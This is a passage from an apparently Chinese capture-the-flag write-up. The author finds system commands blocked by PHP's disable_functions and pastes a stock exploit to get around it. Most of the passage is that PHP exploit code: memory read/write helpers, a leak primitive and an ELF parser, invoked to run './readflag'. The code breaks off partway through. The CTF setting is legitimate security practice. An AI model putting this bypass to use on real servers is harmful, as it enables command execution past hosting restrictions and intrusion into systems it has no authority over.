 但是执行不了系统命令。。。因为`disable_functions`

[![](https://s2.ax1x.com/2020/02/23/33KLhn.png)](https://s2.ax1x.com/2020/02/23/33KLhn.png)

这个禁止使用的太多了`mail,error_log`这些也被禁用了，只好拿出祖传的神器了。。。

```
&lt;?php
pwn("cd / &amp;&amp;./readflag");
function pwn($cmd) `{`
    global $abc, $helper;
    function str2ptr(&amp;$str, $p = 0, $s = 8) `{`
        $address = 0;
        for($j = $s-1; $j &gt;= 0; $j--) `{`
            $address &lt;&lt;= 8;
            $address |= ord($str[$p+$j]);
        `}`
        return $address;
    `}`
    function ptr2str($ptr, $m = 8) `{`
        $out = "";
        for ($i=0; $i &lt; $m; $i++) `{`
            $out .= chr($ptr &amp; 0xff);
            $ptr &gt;&gt;= 8;
        `}`
        return $out;
    `}`
    function write(&amp;$str, $p, $v, $n = 8) `{`
        $i = 0;
        for($i = 0; $i &lt; $n; $i++) `{`
            $str[$p + $i] = chr($v &amp; 0xff);
            $v &gt;&gt;= 8;
        `}`
    `}`
    function leak($addr, $p = 0, $s = 8) `{`
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper-&gt;a);
        if($s != 8) `{` $leak %= 2 &lt;&lt; ($s * 8) - 1; `}`
        return $leak;
    `}`
    function parse_elf($base) `{`
        $e_type = leak($base, 0x10, 2);
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
        for($i = 0; $i &lt; $e_phnum; $i++) `{`
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
            if($p_type == 1 &amp;&amp; $p_flags == 6) `{` # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            `}` else if($p_type == 1 &amp;&amp; $p_flags == 5) `{` # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            `}`
        `}`
        if(!$data_addr || !$text_size || !$data_size)
            return false;
        return [$data_addr, $text_size, $data_size];
    `}`
    function get_basic_funcs($base, $elf) `{`
```